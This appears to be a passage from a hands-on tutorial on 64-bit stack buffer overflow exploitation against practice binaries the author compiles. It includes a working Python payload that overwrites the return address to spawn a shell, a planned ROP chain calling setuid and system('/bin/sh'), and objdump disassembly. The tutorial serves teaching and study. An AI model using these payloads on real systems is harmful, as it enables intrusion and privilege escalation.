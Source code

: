 `0x7ffff7a3a000` + `0xd6b9f` = `0x7ffff7b10b9f`. With a simple
exploit like this:

```
import sys
import struct

payload = b'A' * 0x10
payload += b'BBBBBBBB'
payload += struct.pack("Q", 0x7ffff7b10b9f)

sys.stdout.buffer.write(payload)
```

We can run `./rip $( python3 second.py )` and get a shell!

Unfortunely, we can't call `setuid` to get a root
shell, but in some systems this can be enough to
get root too.

## ROP Chain 2: Eletric Boogaloo

For this exploit, we need a buffer overflow caused by a input
function that reads a number of bytes from `stdin`. This 
bytes should not be read as string (for more info check
[Plan of Attack](#plan-of-attack))

We'll be exploiting the `rip_read` binary. To generate it,
check the [compilation](#the-compilation) section.

The idea is to do a ROP chain just like we did
[in 32 bits](../first/first.md/#getting-r00t).

The differences from the 32 bits chain is that in 64 bits
the arguments are passed from registers, not the stack
and we won't need `gets` since we can write null bytes.

Just like before, the plan is to call `setuid` to get a
root shell if the binary can be run as root. After that
we call `system` to give us a shell using "/bin/sh" and
finally call `exit` to end the program gracefully.

Since the registers are used to pass arguments in 64 bits,
we need to somehow give value to a register before calling
a function.

### Getting the Pieces

If we use
`objdump -D -M intel rip_read | grep -A 7 impossible_shell`,
we can see how `system` is called by the function
`impossible_shell`:

```
0000000000000780 <impossible_shell>:
 780:	55                   	push   rbp
 781:	48 89 e5             	mov    rbp,rsp
 784:	48 8d 3d 2d 01 00 00 	lea    rdi,[rip+0x12d]        # 8b8 <_IO_stdin_used+0x8>
 78b:	e8 90 fe ff ff       	call   620 <system@plt>
 790:	90                   	nop
 791:	5d                   	pop    rbp
 792:	c3                   	ret  
```
